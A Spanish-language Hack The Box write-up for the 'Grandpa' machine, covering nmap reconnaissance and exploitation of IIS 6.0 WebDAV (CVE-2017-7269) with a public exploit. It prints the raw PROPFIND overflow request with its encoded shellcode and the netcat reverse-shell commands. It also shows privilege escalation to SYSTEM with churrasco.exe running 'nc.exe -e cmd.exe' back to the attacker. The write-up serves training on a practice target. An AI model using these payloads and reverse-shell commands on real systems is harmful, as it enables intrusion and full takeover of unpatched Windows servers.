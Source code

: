 ```yaml
---
layout: single
title: HTB-Grandpa
excerpt: "WriteUp de la máquina HTB Grandpa -- Type: Easy"
date: 2022-03-30
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/grandpa/grandpa.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```


<centre><img src="/assets/images/writeups/grandpa/grandpa.png"></centre>

[Maquina](https://app.hackthebox.com/machines/13) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.14
```

```bash
Nmap scan report for 10.10.10.14
Host is up (0.045s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 30 Mar 2022 08:16:08 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Vemos que tiene el puerto **80 (http)** abierto y la versión del servidor es **Microsoft IIS httpd 6.0** puede ser que sea vulnerable a **CVE-2017-7269**


## Explotación
Nos descargamos el exploit el cual no dará una reverse shell por la cual tendremos que tener un puerto a la escucha con netcat.

[CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

```bash
nc -lvp 443
```


Le damos permisos de ejecución al exploit y lo ejecutamos con nuesta ip y por el puerto que vamos a tener a la escucha.

```bash
python2 iis6\ reverse\ shell 10.10.10.14 80 10.10.14.9 443
```

```txt
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Y por el netcat tendremos la ReverseShell.

```txt
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.14] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

El usuario que obtenemos es **nt authority\network service** y no de **system** y por lo tanto tendremos que elevar privilegios.

Podemos ejecutar el comando **systeminfo** en la máquina víctima para pasarlo por el [wes.py](https://github.com/bitsadmin/wesng/blob/master/wes.py) (python script para buscar exploits de windows)

```powershell
C:\Documents and Settings>systeminfo
```

```bash
python2 wes.py systeminfo.txt --exploits-only -i "Elevation of Privilege"
```

Entre todas las vluns que encontramos podemos ver la **CVE-2008-1436** que utiliza el exploit [churrasco.ese](https://github.com/Re4son/Churrasco) para elevar privilegios.

```txt
Date: 20090414
CVE: CVE-2008-1436
KB: KB952004
Title: Vulnerabilities in Windows Could Allow Elevation of Privilege
Affected product: Microsoft Windows Server 2003 x64 Edition 
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: https://www.exploit-db.com/exploits/6705
````

Nos descargamos el [churrasco.ese](https://github.com/Re4son/Churrasco) y el [netcat.exe](https://github.com/int0x33/nc.exe) y los servimos con un servidor smb para poder pasarselos a la máquina windows.

```bash
wget https://github.com/Re4son/Churrasco/blob/master/churrasco.exe
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe

impacket-smbserver share $(pwd) -smb2support
```

Los descargamos en la carpeta Temp:

```powershell
C:\WINDOWS\Temp>copy \\10.10.14.9\share\ch.exe
copy \\10.10.14.9\share\ch.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.9\share\nc.exe
copy \\10.10.14.9\share\nc.exe
        1 file(s) copied.

C:\WINDOWS\Temp>
```

Y nos podemos en escucha con netcat por un puerto diferente al usado.

```bash
nc -lvp 444
```

Y ya podemos ejecutar el comando para obtener una reverse shell con **churrasco.exe**

```powershell
ch.exe -d "nc.exe -e cmd.exe 10.10.14.9 444"
```

```powershell
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.14] 1037
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\WINDOWS\TEMP>
```

Flag **User Harry**:
```powershell
C:\Documents and Settings\Harry\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\Documents and Settings\Harry\Desktop

04/12/2017  05:32 PM    <DIR>          .
04/12/2017  05:32 PM    <DIR>          ..
04/12/2017  05:32 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,320,251,392 bytes free
```

Flag **nt authority\system**:
```powershell
C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\Documents and Settings\Administrator\Desktop

04/12/2017  05:28 PM    <DIR>          .
04/12/2017  05:28 PM    <DIR>          ..
04/12/2017  05:29 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   1,318,543,360 bytes free
```

